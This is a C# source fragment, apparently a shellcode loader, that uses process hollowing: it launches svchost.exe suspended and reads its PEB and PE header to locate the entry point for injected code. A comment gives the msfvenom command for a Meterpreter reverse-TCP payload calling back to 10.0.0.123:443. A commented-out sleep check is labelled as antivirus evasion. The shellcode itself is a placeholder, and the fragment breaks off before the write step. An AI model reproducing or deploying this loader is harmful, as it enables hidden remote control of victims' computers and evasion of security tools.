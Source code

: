 ```cs
        static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref StartupInfo lpStartupInfo, out ProcessInfo lpProcessInformation);

        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass, ref ProcessBasicInfo procInformation, uint ProcInfoLen, ref uint retlen);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfbytesRW);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern uint ResumeThread(IntPtr hThread);

        public static void Main(string[] args)
        {
            // AV evasion: Sleep for 10s and detect if time really passed
            //DateTime t1 = DateTime.Now;
            //Sleep(10000);
            //double deltaT = DateTime.Now.Subtract(t1).TotalSeconds;
            //if (deltaT < 9.5) { return; }

            // msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.123 LPORT=443 -f csharp
            byte[] buf = new byte[510] { SHELLCODE_GO_HERE };

            // Start 'svchost.exe' in a suspended state
            StartupInfo sInfo = new StartupInfo();
            ProcessInfo pInfo = new ProcessInfo();
            bool cResult = CreateProcess(null, "c:\\windows\\system32\\svchost.exe", IntPtr.Zero, IntPtr.Zero, false, CREATE_SUSPENDED, IntPtr.Zero, null, ref sInfo, out pInfo);

            // Get Process Environment Block (PEB) memory address of suspended process (offset 0x10 from base image)
            ProcessBasicInfo pbInfo = new ProcessBasicInfo();
            uint retLen = new uint();
            long qResult = ZwQueryInformationProcess(pInfo.hProcess, PROCESSBASICINFORMATION, ref pbInfo, (uint)(IntPtr.Size * 6), ref retLen);
            IntPtr baseImageAddr = (IntPtr)((Int64)pbInfo.PebAddress + 0x10);

            // 1. Read executable address from first 8 bytes (Int64, offset 0) of PEB and read data chunk for further processing
            byte[] procAddr = new byte[0x8];
            byte[] dataBuf = new byte[0x200];
            IntPtr bytesRW = new IntPtr();
            bool result = ReadProcessMemory(pInfo.hProcess, baseImageAddr, procAddr, procAddr.Length, out bytesRW);
            IntPtr executableAddress = (IntPtr)BitConverter.ToInt64(procAddr, 0);
            result = ReadProcessMemory(pInfo.hProcess, executableAddress, dataBuf, dataBuf.Length, out bytesRW);

            // 2. Read the field 'e_lfanew', 4 bytes (UInt32) at offset 0x3C from executable address to get the offset for the PE header
            uint e_lfanew = BitConverter.ToUInt32(dataBuf, 0x3c);

            // 3. Take the memory at this PE header add an offset of 0x28 to get the Entrypoint Relative Virtual Address (RVA) offset
            uint rvaOffset = e_lfanew + 0x28;
```